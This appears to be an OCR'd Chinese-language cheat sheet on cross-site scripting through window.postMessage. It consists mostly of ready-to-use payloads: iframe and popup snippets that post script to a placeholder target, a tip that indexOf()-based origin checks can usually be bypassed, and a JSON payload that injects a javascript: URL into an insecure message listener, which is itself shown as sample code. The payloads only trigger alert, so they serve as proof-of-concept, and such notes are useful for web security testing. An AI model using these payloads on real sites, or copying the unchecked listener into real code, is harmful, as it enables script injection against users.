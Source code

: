     <iframe src="//www.xxxx.com" onload="this.contentWindow.postMessage('alert(1)','*')">

如果网页不允许iframe<br>

    <script>
    var popup = window.open('https://www.xxxx.com');
    function xss(){popup.postMessage("alert(1)","*")}
    setInterval(xss,1000);
    </script>
如果验证来源，视情况绕过<br>
最常见的是使用indexOf() 大多数情况可以绕过

解析json造成的xss

    <script>
                                window.addEventListener('message', function(e) {
                                    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                                    document.body.appendChild(iframe);
                                    try {
                                        d = JSON.parse(e.data);
                                    } catch(e) {
                                        return;
                                    }
                                    switch(d.type) {
                                        case "page-load":
                                            ACMEplayer.element.scrollIntoView();
                                            break;
                                        case "load-channel":
                                            ACMEplayer.element.src = d.url;
                                            break;
                                        case "player-height-changed":
                                            ACMEplayer.element.style.width = d.width + "px";
                                            ACMEplayer.element.style.height = d.height + "px";
                                            break;
                                    }
                                }, false);
                            </script>
触发的方式不只一种 最简单的是ACMEplayer.element.src = d.url;<br>
直接设置iframe的src<br>
json只要有type 和url即可<br>

    {"type":"load-channel","url":"javascript:alert()"}
**payload**

    <iframe src='https://www.xxxx.com' onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert()\"}","*")'>
